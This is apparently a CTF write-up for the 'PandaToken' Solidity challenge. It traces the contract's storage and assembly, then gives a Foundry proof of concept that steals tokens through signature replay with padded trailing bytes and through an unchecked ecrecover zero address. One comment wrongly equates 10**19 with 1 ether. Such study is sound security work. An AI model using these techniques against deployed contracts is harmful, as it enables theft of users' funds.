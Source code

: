 # Analysis:
### Storage slots:
The storage layout can be printed with `solc --storage-layout ...`, a list of used slots and corresponding variables:
  - slot 0: `ERC20._balances`
  - slot 5: `Ownable._owner`
  - slot 6: `PandaToken.c1`
  - slot 7: `PandaToken.usedSignatures`

### The function `calculateAmount()`:
It reads slot 6, which is variable `c1`, assigned with value 400 in constructor.

Just by replacing variables, the function can be simplified to:
```solidity
    function calculateAmount2(
        uint arg
    ) public pure returns (uint) {
        uint ret;
        assembly {
            ret := div(mul(arg, 1000), 1000)
        }
        return ret;
    }

```
It simply does nothing, just returns the argument. (overflow is not concerned here)

### The constructor:


```solidity
    let ptr := mload(0x40) // 0x40: get the free memory pointer, ptr = 0x100
    mstore(ptr, sload(mul(1, 110))) // mem[ptr] = 0, because store[110] == 0
    mstore(add(ptr, 0x20), 0) // mem[ptr+0x20] = 0
    let slot := keccak256(ptr, 0x40) // slot = sha3(zero_address + slot_0 of `ERC20._balances`)

    sstore(slot, exp(10, add(4, mul(3, 5)))) // store[slot] = 10**19 => _balances[0] = 1 ether
```
The first 4 lines write 0x40 zeroes to ptr, followed by a `keccak256`, it's calculating a mapping slot, the slot is calulated like: `keccak256(address, slot)`, so:
1. The address is 0
2. The slot is zero, hence it is `ERC20._balances`.

It's equivalent to `_balances[0]`, and stores 10**19(10 ether) in that slot.

```solidity
    sstore(6, _c1) // c1 == 400
```
This line stores 400 to the variable `c1`, which is passed in contructor.

```solidity
    mstore(ptr, sload(5)) // slot 5 is 'Ownable._owner',  mem[ptr] = owner
    mstore(add(ptr, 0x20), 0) // mem[ptr+0x20] = 0
    let slot1 := keccak256(ptr, 0x40) // slot1 = sha3(owner, slot_0 of `ERC20._balances`)

        // these two lines are doing cleanup, which are useless
        // mstore(ptr, sload(7)) // sizeof 'usedSignatures' == 0, mem[ptr] = 0
        // mstore(add(ptr, 0x20), 0) // mem[ptr+0x20] = 0

    sstore(slot1, mul(sload(slot), 2)) // _balances[owner] = 2 * _balances[0]
```
The 4 lines update owner's balance, setting it to `2 * balanceOf(0)`.

After the constructor is called:
 - `balanceOf(owner)`:  20 ether
 - `balanceOf(0)`: 10 ether


### Function `getTokens(amount, signature)`:
It uses the signature to recover the address, there're two problems:
1. It only uses the first 0x41 bytes of the signature, but it caches and compares with the whole signature bytes. So solution 1 is: 

 - Send multiple request with a fixed 0x41 bytes and some different trailing bytes to bypass the check of "used signature", and steal token from `owner`.

2. It doesn't verify the result of `ecrecover`, if the signature is wrong, the `ecrecover` can return 0.
We don't even need to provide a correct 0x41 bytes, so solution 2: 

 - Send different bytes as signature, steal token from the `address(0)`.


# POC (Foundry)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import "src/PandaToken.sol";


contract Hack is Test {
    PandaToken pandatoken;
    address owner = vm.addr(1);
    address hacker = vm.addr(2);

    function setUp() external {
        vm.prank(owner);
        pandatoken = new PandaToken(400, "PandaToken", "PND");
    }

    function test() public {
        vm.startPrank(hacker);
        bytes32 hash = keccak256(abi.encode(hacker, 1 ether));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

        // solution

		// method 1. get token from owner
		//   the first 0x41 bytes must be correct
		{
			bytes memory signature = abi.encodePacked(r, s, v);
			pandatoken.getTokens(1 ether, signature);
		}
		{
			bytes memory signature = abi.encodePacked(r, s, v, uint(1));
			pandatoken.getTokens(1 ether, signature);
		}
		{
			bytes memory signature = abi.encodePacked(r, s, v, uint(2));
			pandatoken.getTokens(1 ether, signature);
		}

		// method 2. get token from address(0)
		//   just send any bytes to it, as long as it's different
		//
		// for (uint i=0; i<3; i++) {
		// 	bytes memory signature = abi.encodePacked(i, i, i);
		// 	pandatoken.getTokens(1 ether, signature);
		// }

        assertEq(pandatoken.balanceOf(hacker), 3 ether);
    }
}

```
